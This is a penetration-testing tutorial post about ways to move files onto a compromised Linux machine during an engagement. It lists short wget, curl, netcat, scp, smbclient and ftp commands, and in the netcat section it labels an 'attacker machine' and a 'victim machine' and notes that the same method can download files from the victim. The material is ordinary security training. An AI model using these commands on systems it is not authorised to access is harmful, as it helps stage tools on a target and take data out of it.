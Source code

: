 ```yaml
---
title: "Transfer Files To A Linux Machine"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - tutorial
tags:
  - cybersecurity
  - penetration testing
---
```


This section is pulling from my online notes [here](https://calvin-connor.gitbook.io/hacking-notes/general/transferring-files/transferring-files-to-linux), or at https://calvin-connor.gitbook.io/hacking-notes/.

## Overview

During an engagement, you may find certain tools do not exist, outbound ports have been blocked, and sometimes, the machine is just too buggy to transfer your files the only way you know how. For this reason, I find it helpful to have an array of tools at my disposal. I would recommend practicing all the below examples until you know every way you can transfer a file in your specific scenario.

## Wget

```
wget 192.168.1.1:80/example.txt
```

A Linux command-line tool that you can find on most machines you will encounter. Use in conjunction with an HTTP file server in the previous section.

## Curl

```
curl -O http://192.168.1.1:80/example.txt
```

If not told otherwise, curl writes the received data to stdout. It can be instructed to instead save that data into a local file, using the -o, --output or -O, --remote-name options. Use in conjunction with an HTTP file server in the previous section.

## Netcat

```
nc -lvp 5555 > example.txt    //Attacker Machine

nc 192.168.1.1 5555 < example.txt    //Victim Machine
```

This is one of the rare instances where I include how to host the file as well, since Netcat is such a diverse tool and not just for file transfers. The way I remember the direction of arrows is first we need to send > the file and then receive < it. This tool is especially excellent in that you can reverse the order and download a file from the victim instead.

## SSH

```
scp example.txt username@192.168.1.1:/tmp
```

This is more niche as it obviously relies on having SSH credentials. If you are using something like an id_rsa file instead, reflect those changes but keep the scp and :/tmp. The : is not an error here, I have forgotten it too many times. /tmp is whatever directory on the victim you want to transfer the file to.

## SMB

```
smbclient //192.168.1.1/share -U username
smb: \> get example.txt
smb: \> exit
```

Even if no password is set for the SMB share, you will still have to press enter upon the password prompt. /share references the share name and is not a default share name, but I usually name my SMB shares “share” for this reason. smb \> represents once you have connected to the share and is not a part of the command that you need to run. Refer to the previous section on starting an SMB share.

## FTP

```
ftp 192.168.1.1
```

After you are entered the connect command, it will prompt you for both the username and password you want to enter. Even if you are connecting anonymously, you will still have to enter the anonymous:anonymous credentials. From there, you can navigate the file share like a normal directory. Always use the help command if you are unsure of how to download or upload files.

```
ftp://192.168.1.1
```

You can also access FTP on any browser by appending ftp:// before the address. You will still be prompted for credentials.
